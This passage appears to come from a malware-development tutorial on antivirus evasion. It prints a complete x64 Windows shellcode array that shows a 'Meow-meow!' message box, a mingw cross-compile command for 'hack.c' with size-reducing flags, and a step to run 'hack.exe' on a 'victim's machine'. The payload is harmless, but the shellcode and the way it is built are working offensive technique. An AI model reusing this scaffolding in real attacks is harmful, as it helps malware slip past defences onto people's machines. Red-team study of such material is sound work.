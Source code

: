 As usually, I used `meow-meow` messagebox payload:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

For checking correctness, also added printing logic.     

### demo

Let's go to see everything in action. Compile it (in `kali` machine):      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/102/2023-06-26_11-15.png){:class="img-responsive"}      

Then, just run it in the victim's machine (`windows 10 x64 22H12` in my case):         

```powershell
.\hack.exe
```
